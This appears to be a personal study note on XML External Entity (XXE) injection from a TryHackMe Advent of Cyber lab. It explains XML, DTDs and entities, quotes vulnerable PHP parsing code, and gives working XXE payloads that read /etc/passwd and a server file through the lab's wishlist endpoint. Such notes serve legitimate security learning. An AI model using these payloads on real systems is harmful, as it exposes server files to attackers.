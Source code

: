 
2024-12-10 14:57

Source: #AOC24 #htb 

Tags: [[Injection]]

### Extensible Markup Language (XML)

[[XML]] is a commonly used method to transport and store data in a structured format that is easy to understand.
XML uses `tags` to label and organize information
The key benefit of XML is that it is easily shareable and customizable, allowing you to create your own tags. 

```xml
<people>
	<name>Glitch</name>
	<address>Wareville</address>
</people>
```
### Document Type Definition (DTD)

DTD is a set of **rules** that defines the structure of an XML document.

```dtd
<!DOCTYPE people [ 
	<!ELEMENT people(name, address)> 
	<!ELEMENT name (#PCDATA)>
	<!ELEMENT address (#PCDATA)>
]>
```
### Entities

- Entities in XML are placeholders that allow the insertion of large chunks of data or referencing internal or external files. 
- Entities can be defined internally within the XML document or externally, referencing data from an outside source.

```xml
<!DOCTYPE people [
	<!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
	<name>Glitch</name> 
	<address>&thmFile;</address>
</people>
```
### XML External Entity (XXE)

- XXE is an attack that takes advantage of **how** **XML parsers handle external entities**.
- When a web application processes an XML file that contains an external entity, the parser attempts to load or execute whatever resource the entity points to. If necessary sanitization is not in place, the attacker may point the entity to any malicious source/code causing the undesired behavior of the web app.
### Lab

we can wish list items and it assigns a wish number to every wish list 
Now, when you visit the URL, `http://MACHINE_IP/product.php`, and click `Add to Wishlist`, an AJAX call is made to `wishlist.php`

This `wishlist.php` accepts the request and parses the request using the following code:

```javascript
<?php
..
...
libxml_disable_entity_loader(false);
$wishlist = simplexml_load_string($xml_data, "SimpleXMLElement", LIBXML_NOENT);

...
..
echo "Item added to your wishlist successfully.";
?>

```

When a user sends specially crafted XML data to the application, the line `libxml_disable_entity_loader(false)` allows the XML parser to load external entities. This means the XML input can include external file references or requests to remote servers. When the XML is processed by `simplexml_load_string` with the `LIBXML_NOENT` option, the web app resolves external entities, allowing 

inject this payload in the `wishlists.php` request 
**Note: Not all web applications use the path /var/www/html, but web servers typically use it.**

```javascript
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

### References

THM AOC24 - DAY 5 
HTB - Jailbreak from CTF tryout